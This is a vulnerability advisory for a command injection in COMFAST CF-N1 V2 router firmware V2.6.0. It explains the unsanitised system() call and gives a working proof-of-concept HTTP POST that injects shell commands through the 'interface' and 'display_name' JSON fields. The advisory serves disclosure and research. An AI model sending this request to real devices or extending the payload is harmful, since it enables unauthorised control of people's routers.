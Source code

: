 # COMFAST CF-N1 V2 V2.6.0 Command Injection in \`update\_interface\_png\`

Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

# COMFAST CF-N1 V2 V2.6.0 Command Injection in `update_interface_png`

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `update_interface_png` API (`/usr/bin/webmgnt`, function `sub_41C000`). Attackers can inject arbitrary commands via the `interface` and `display_name` parameters, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Evidence](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=update_interface_png`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability resides in the `sub_41C000` function responsible for handling the `update_interface_png` configuration. Disassembly analysis reveals that user-controlled parameters (`interface` and `display_name`) are unsanitized and directly incorporated into a system command via `sprintf_0`, which is then executed using `system_0`.

Key code flow:



1.  User input is parsed via `blobmsg_parse_0`, extracting parameters including `interface` and `display_name`.

2.  These parameters are inserted into a command string using `sprintf_0` with the template `&aSSSSLdSSS` (likely a command for updating interface images, e.g., involving `ld` or file operations).

3.  The constructed command is executed via `system_0` without input validation, allowing attackers to inject arbitrary commands using delimiters like `;`, `&&`, or `#`.

This lack of sanitization enables attackers to break out of the intended command structure and execute malicious code.



![Vulnerable Code Snippet](./imgs/1.png)



![Command Injection Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Commands via `interface` and `display_name`



```
POST /cgi-bin/mbox-config?method=SET&section=update_interface_png  HTTP/1.1
Host: cflogin.cn
Content-Length: 82
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"interface":"; echo update > /www-comfast/test.txt #","display_name":"&& echo 1"}
```



*   **Notes**: The `interface` parameter uses `;` to terminate the original command and inject `echo update`, while `display_name` uses `&&` to chain an additional `echo 1` command. The `#` comments out remaining syntax to avoid errors.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify execution of the injected command.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "update", confirming successful command injection.

![PoC Execution Result](./imgs/3.png)

